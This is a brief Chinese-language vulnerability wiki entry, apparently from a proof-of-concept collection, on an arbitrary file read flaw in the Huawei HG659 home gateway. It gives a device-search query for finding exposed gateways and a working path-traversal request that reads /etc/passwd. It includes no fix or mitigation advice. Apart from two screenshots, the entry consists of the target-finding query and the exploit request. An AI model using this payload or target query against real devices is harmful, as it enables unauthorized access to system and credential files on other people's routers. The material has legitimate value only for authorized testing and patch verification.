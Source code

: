 # Huawei HG659 lib 任意文件读取漏洞

## 漏洞描述

Huawei HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

<a-checkbox checked>Huawei HG659</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HUAWEI-Home-Gateway-HG659"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/image-20210615141459903.png)



POC如下



```plain
/lib///....//....//....//....//....//....//....//....//etc//passwd
```



![img](/assets/PeiQi-Wiki/img/image-20210615141751249.png)

